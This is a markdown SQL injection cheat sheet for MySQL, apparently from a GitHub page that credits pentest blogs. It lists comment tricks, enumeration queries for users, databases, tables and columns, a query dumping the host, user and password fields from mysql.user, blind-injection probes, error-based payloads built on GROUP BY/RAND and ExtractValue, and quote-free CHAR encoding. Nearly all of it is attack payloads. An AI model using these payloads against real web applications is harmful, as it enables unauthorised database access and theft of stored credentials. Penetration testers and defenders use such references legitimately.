 # SQL Injection Cheat Sheet MySQL 

Inspired by
[SQL-Injection-Cheat-Sheet-MySQL](https://blog.safebuff.com/2016/04/11/SQL-Injection-Cheat-Sheet-MySQL/) and 
[SecurityIdiots](http://www.securityidiots.com/Web-Pentest/SQL-Injection/)

- [SQL Injection Cheat Sheet MySQL](#SQL-Injection-Cheat-Sheet-MySQL)
    - [Comments](#Comments)
    - [Version](#Version)
    - [User details](#User-details)
    - [Database details](#Database-details)
    - [Database credentials](#Database-credentials)
    - [Server details](#Server-details)
    - [Table Name](#Table-Name)
    - [Find Tables From Column Name](#Find-Tables-From-Column-Name)
    - [Columns Names](#Columns-Names)
    - [Bitwise AND](#Bitwise-AND)
    - [No Quotes](#No-Quotes)
    
    
    
## SQL Injection Cheat Sheet MySQL

### Comments

```
--	 #	MySQL Linux Style            
--+      #	MySQL Windows Style          
#	 #	Hash (URL encode while use)  
--+-	 #	SQL Comment                  
;%00	 #	Null Byte                    
`        #      Backtick   
/*
```

### Version

```
SELECT VERSION();
SELECT @@VERSION;
SELECT @@GLOBAL.VERSION;
```

### User details

```
SELECT user()
SELECT current_user()
SELECT current_user
SELECT system_user()
SELECT session_user()
SELECT user,password FROM mysql.user;   # list Users
```

### Database details

```
SELECT db_name();
SELECT database();
SELECT schema_name FROM information_schema.schemata;
```

### Database credentials

```
SELECT host, user, password FROM mysql.user;
```

### Server details

```
SELECT @@hostname;
```

### Table Name

```
SELECT table_name FROM information_schema.tables;
SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema';
SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE version=10; #all tables
AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables > 'A'; #Blind
and 0<(select count(*) from xxx) and 1<2    #盲注爆表

AND(SELECT COUNT(*) FROM (SELECT 1 UNION SELECT null UNION SELECT !1)x GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),FLOOR(RAND(0)*2)))
(@:=1)||@ GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),!@) HAVING @||MIN(@:=0);
AND ExtractValue(1, CONCAT(0x5c, (SELECT table_name FROM information_schema.tables LIMIT 1)));-- Available in 5.1.5
```

### Find Tables From Column Name

```
SELECT table_schema, table_name FROM information_schema.columns WHERE column_name = 'columnname';#find table which have a column called 'columnname'
and 0<(select count(xxx) from tbl_user) and 1<2 ＃盲注爆字段
```

### Columns Names

```
SELECT column_name FROM information_schema.columns WHERE table_name = 'tablename';
SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'information_schema';
```

### Bitwise AND

```
SELECT 6 & 2; # returns 2
SELECT 6 & 1; # returns 0
```

### No Quotes 

```
CONCAT(CHAR(97), CHAR(98), CHAR(99))
```
